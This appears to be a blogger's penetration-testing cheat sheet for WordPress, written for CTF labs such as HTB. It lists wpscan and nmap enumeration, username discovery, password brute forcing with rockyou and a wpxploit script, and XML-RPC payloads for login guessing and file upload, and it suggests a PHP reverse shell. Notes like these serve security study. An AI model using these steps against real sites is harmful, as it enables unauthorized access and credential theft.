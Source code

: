 ```yaml
---
layout: post
title: Wordpress
description: Wordpress
summary: Wordpress
tags: [web,enum,wordpress]
minute: 2
---
```

## Version
* On meta generators

![](/spindel/assets/Wordpress/3101332D-061A-4AFA-ACEA-18A476551E16.png)

* Check interesting URL paths below

## Credentials
* Seems you really need to find valid credentials to wordpress before exploiting
* Try going to `/?author=1` and enumerate from there to see the usernames
* There is no default credentials. Installation will ask user to provide the creds.
* You can guess valid usernames though

![](/spindel/assets/Wordpress/FCE001CA-BCC0-44B1-94FF-9B2152812FDF.png)

## Recon
```bash
# Kickoff nmap
nmap -p80 --script http-wordpress-enum,http-wordpress-users 10.10.71.200

# Using wpscan (you can remove api token but some
# information will not be displayed)
# NOTE: wpscan may not report all vulnerabilities specially
# on plugins
wpscan --url http://10.10.10.29 --api-token {API_TOKEN}

# Similar to above but on another path
wpscan --url http://10.10.10.29/wordpress --api-token {API_TOKEN}
```

* Check for `colorlib` in HTML elements. This is a WP plugin.

## Interesting URL Paths
```bash
# you may find version here
/wp-links-opml
/wp-links-opml.php
/readme.html

# uploads directory
/wp-content/uploads/YYYY/DD/FILENAME

# login
/wp-login.php
```

## Interesting files
```bash
# DB credentials
wp-config.php
```

## Brute Force
```bash
# Using nmap
map -p80 --script http-wordpress-brute 10.10.10.29

# User IDs can be extracted from here. You can use
# burp sniper intruder and generate a list of user
# id from 1 to 100 using bash for loop.
curl -s -I -X GET http://10.10.10.29/?author=1

# You can use this python script from
# https://github.com/relarizky/wpxploit
# This can take around 30 minutes to complete
# TIP: try using "admin" as username first
cd ~/data/tools/webapp/wpxploit
./exploit.py http://10.10.127.229/wordpress 5 15

# You can also use wpscan
wpscan --url http://10.10.127.229/wordpress --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```

* Once you have the credentials you can try uploading a PHP reverse shell
* TIP: bruteforce is done by sending this POST data containing username and password

```xml
<methodCall>
  <methodName>
    wp.getUsersBlogs
  </methodName>
  <params>
    <param>
      <value>
        admin
      </value>
    </param>
    <param>
      <value>
        gansta1
      </value>
    </param>
  </params>
</methodCall>
```

## Interesting URL Paths
```bash
# most can be reported by wpscan
/wp-content/uploads/
/wp-admin/
/wp-admin/update-core.php
/wp-admin/upgrade.php
/install.php
/wp-cron.php

# can accept post requests if active
/xmlrpc.php

# others
/plugins
/wp-content/plugins
```

For xmlrpc.php, you can use burpsuite to send some POST requests like this.

```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 10.10.10.29
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

## XML RPC calls
```bash
# List all method calls
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

# Get blogs
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>username</value></param>
<param><value>password</value></param>
</params>
</methodCall>

# Uploading a file
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

## Themes
* Maybe you can also find theme exploits?

![](/spindel/assets/Wordpress/17000E5E-19E8-4681-A8D6-E9D0AA546605.png)

## Plugins
* You can search for plugin exploits also, one way of determining the plugin used is via html elements. Version can also be determined there.

![](/spindel/assets/Wordpress/98C48061-F8E3-4613-B122-E45B3D750365.png)

![](/spindel/assets/Wordpress/0B054482-2FAF-43DA-B89C-1A847D63C7D9.png)

* You can also add `--plugins-detection aggressive --plugins-version-detection aggressive` in `wpscan`

## Troubleshoting
* Sending `POST` to `/xmlrpc.php` produces 200 OK but with `parse error. not well formed` message most likely caused by [missing php/xml parser library](https://github.com/maxcutler/python-wordpress-xmlrpc/issues/110) inside the server. I encountered this in HTB Tenten.

## References
* [Wordpress - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress)
* HTB Tenten
